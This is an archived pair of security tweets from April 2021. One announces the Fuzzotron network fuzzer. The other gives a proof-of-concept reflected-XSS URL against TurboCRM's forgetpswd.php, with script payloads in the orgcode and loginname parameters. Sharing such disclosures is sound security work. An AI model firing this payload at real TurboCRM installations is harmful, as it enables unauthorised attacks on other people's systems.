 
# jedisct1
**https://twitter.com/jedisct1/status/1381182604322476033 _at 2021-04-11 09:49:28_**
<blockquote>
RT @Enno_Insinuator: Fuzzotron is a simple network fuzzer supporting TCP, UDP and multithreading
https://t.co/cPzjfAwHmH
</blockquote>

* https://github.com/denandz/fuzzotron

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1381045152135831555 _at 2021-04-11 00:43:17_**
<blockquote>
TurboCRM XSS Tested With Nuclei 

POC:
http://IP/login/forgetpswd.php?loginsys=1&amp;orgcode=%22%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E&amp;loginname=%22%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E

Ref:https://t.co/X9nVcvs4Wc https://t.co/CLSakvA9nl
</blockquote>

* https://gist.github.com/pikpikcu/9689c5220abbe04d4927ffa660241b4a

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Eyp0iXEU4AEQUBV.png" alt="http://pbs.twimg.com/media/Eyp0iXEU4AEQUBV.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---
